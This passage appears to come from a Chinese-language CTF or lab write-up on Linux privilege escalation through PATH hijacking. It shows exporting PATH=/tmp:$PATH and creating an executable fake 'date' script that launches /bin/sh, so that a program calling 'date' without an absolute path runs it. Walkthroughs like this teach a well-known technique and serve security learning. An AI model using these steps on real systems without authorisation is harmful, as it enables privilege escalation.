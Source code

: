 前面是调用绝对路径，后面则是相对路径

回到这个题目，

[![](assets/1706771526-0da92ce1fc97db09a2e6b24ff43214fa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222911-c4d74134-beb2-1.png)

可以看到这里调用了 date，但是没有绝对路径，所以我们可以创建一个 date 文件，之后再环境变量中添加这个路径即可

先看一下环境变量

[![](assets/1706771526-254424e275f2a4dbbf87912fe52aed47.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222914-c724e32e-beb2-1.png)

tmp 目录是所有用户可读写的，可以将 date 文件创建在 tmp 下，然后将 tmp 添加到环境变量中

```plain
export PATH=/tmp:$PATH
```

之后创建一个 date 的文件

```plain
#!/bin/sh
/bin/sh
```

```plain
chmod +x date
```

[![](assets/1706771526-1bf578f841710fb04e7f7fc40566c99d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222920-ca3382a0-beb2-1.png)
